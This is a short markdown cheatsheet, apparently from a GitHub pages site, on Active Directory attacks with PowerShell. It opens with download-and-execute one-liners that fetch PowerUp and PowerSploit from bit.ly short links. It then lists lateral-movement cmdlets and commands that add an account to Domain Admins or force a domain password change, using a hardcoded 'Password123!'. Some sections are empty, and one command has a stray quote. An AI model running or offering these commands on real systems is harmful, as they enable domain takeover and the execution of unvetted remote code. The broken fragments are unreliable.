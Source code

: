 ```yaml
---
layout: default
title: Active Directory Enumeration with Powershell 
parent: Forensic
categories: Forensics Windows
grand_parent: Cheatsheets
has_children: true
---
```


# {{ page.title}}

## PRE-REQUISITE: Installing PowerUp and PowerSploit

```powershell
# ActiveDirectory Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# PowerUp Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/1PdjSHk'); . .\PowerUp.ps1

# PowerSploit Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/28RwLgo'); . .\PowerSploit.ps1

```

## LATERAL MOVEMENT
```powershell
Invoke-DCOM
Invoke-SMBExec
Invoke-PsExec
Invoke-Command
mstsc.exe
```

## TOKEN IMPERSONATION

## ADD MEMBER
```
# OPTION 1
net group "Domain admins" dfm.a /add /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLABdfm.a',$SecPassword)
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'jomivz' -Credential $Cred

# VERIFICATION
Get-DomainGroupMember -Identity 'Domain Admins'
```


## FORCE PASSWORD CHANGE
```
# OPTION 1
net user dfm.a Password123! /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLABdfm.a',$SecPassword)
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity jomivz -AccountPassword $UserPassword ' -Credential $Cred
```

## KERBEROASTING
```

```

